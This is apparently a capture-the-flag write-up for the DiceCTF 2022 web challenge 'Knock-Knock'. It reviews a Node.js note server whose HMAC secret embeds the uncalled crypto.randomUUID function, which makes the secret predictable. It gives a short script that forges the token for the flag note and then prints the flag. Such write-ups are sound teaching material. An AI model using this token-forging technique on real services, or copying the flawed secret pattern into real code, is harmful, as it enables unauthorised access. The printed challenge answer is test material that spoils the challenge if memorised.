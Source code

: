 ```yaml
---
layout: single
title: Knonk-Knock - DiceCTF 2022
date: 2022-2-07
desc: "Knock knock? Who's there? Another pastebin!!"
category: "Web"
---
```


Knock knock? Who's there? Another pastebin!!

## Code Review | index.js

```js
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});
```

Let's take it from beginning

#### Where flag is stored?
```js
const db = new Database();
db.createNote({ data: process.env.FLAG });
```
When the server starts a new Database object is created and also a note which contains the flag.
The flag is stored at `notes[0]` because `this.notes = [];` is an empty array consequently the flag will be stored at `notes[0]`.

#### Explain Constructor & createNote
```js
constructor() {
    this.notes = []; 
    this.secret = `secret-${crypto.randomUUID}`;
  }
```
```js 
  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }
```
At constructor we have an array notes and a secret key. At secret variable the secret key starts with `secret-` but the problem is ${crypto.randomUUID}. The UUID part does not use a random uuid as the secret but the function itself i.e. the secret value is known.


## Final Exploit
```js
const crypto = require('crypto');

function generateToken(id,secret) { 
    return crypto
      .createHmac('sha256', secret) 
      .update(id.toString()) 
      .digest('hex'); 
  }

var id = 0; // Flag id
var secret = `secret-${crypto.randomUUID}`;

console.log(secret);
console.log(generateToken(id,secret));

```

Now, run the nodejs script 

![](https://files.bitwarriors.net/images/knock-knock/knock.PNG)

and use the token  7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264 to grab the flag dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}.

![](https://files.bitwarriors.net/images/knock-knock/knock1.PNG)


